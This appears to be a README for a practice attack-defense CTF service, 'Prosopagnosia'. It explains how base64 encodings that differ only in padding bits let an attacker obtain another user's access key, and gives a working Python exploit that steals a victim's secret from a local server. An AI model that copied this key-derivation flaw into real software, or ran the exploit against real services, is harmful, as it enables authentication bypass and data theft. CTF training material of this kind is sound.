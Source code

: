 # Prosopagnosia

A little srvice to practize in rewriting of AD-services :)

Backend has 3 routes: create rom, get rom, list roms, first of two accept arguments (rom name especially) as base64 encoded string.
Every rom has an access key generated as:
```
std::string demo_service::get_key(const std::string &name) {
    auto name_decoded = base64_decode(name);

    SHA256 sha;
    sha.update(name_decoded.value);
    sha.update(keys_secret);

    auto digest = sha.digest();
    std::string sha256 = SHA256::toString(digest.get());

    return base64_encode(sha256);
}
```

Which means, that the access key is `base64(sha256(b64decode(name) + secret))`. Solution to the dog's disappearance is base64, which can have more than one encoded strings, that leads to one source string. For example:
```
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
b64decode('ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWM=') == demo-3c910c2b-8c39-4183-9111-70f24440961c
```

That happens when encoding string has length that not divides by 3, 2 bits of encoded string becomes isinsignificant and can be replaced by any value, which leads to different encoded strings, but same source string.

Prosopagnosia service compares for base64 string of name for collision checking, but when its computing the access key it uses decoded string. So, hacking algorithm is:
```
1) get list of demos names
2) find some base64 that represents that names but not equals to first used base64
3) take key that is equal to the key of the victim
4) GET /api/demo
```

The sploit for getting base64 collisions can be:
```
import requests
import base64
import string

NAME_HEADER = 'X-Svm-Name'
SECRET_HEADER = 'X-Svm-Secret'
AUTHOR_HEADER = 'X-Svm-Author'
KEY_HEADER = 'X-Svm-Key'

base64_alpha = string.ascii_letters + string.digits

victim_name = 'ZGVtby0zYzkxMGMyYi04YzM5LTQxODMtOTExMS03MGYyNDQ0MDk2MWP='
victim_name_decoded = base64.b64decode(victim_name).decode()

some_content = b'hello-there'

same_base64 = []

for a in base64_alpha:
    p = victim_name[:-2] + a + victim_name[-1]
    if p == victim_name:
        continue
    if base64.b64decode(p).decode() == victim_name_decoded:
        same_base64.append(p)
        print(p)

if len(same_base64) == 0:
    print('no collision')
    exit()

p = same_base64[0]

print(f'will use {p}')

with requests.post('http://localhost:15345/api/demo', 
                   headers={NAME_HEADER: p, SECRET_HEADER: 'TWu=', AUTHOR_HEADER: 'TWu='},
                   files={p: some_content}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on post')

    key = r.headers.get(KEY_HEADER)

    print(f'The key for {victim_name} is {key}')

with requests.get('http://localhost:15345/api/demo',
                  headers={NAME_HEADER: victim_name, KEY_HEADER: key}) as r:
    if r.status_code != 200: raise ValueError(f'{r.status_code} on get')

    print(r.json()['secret'])
```

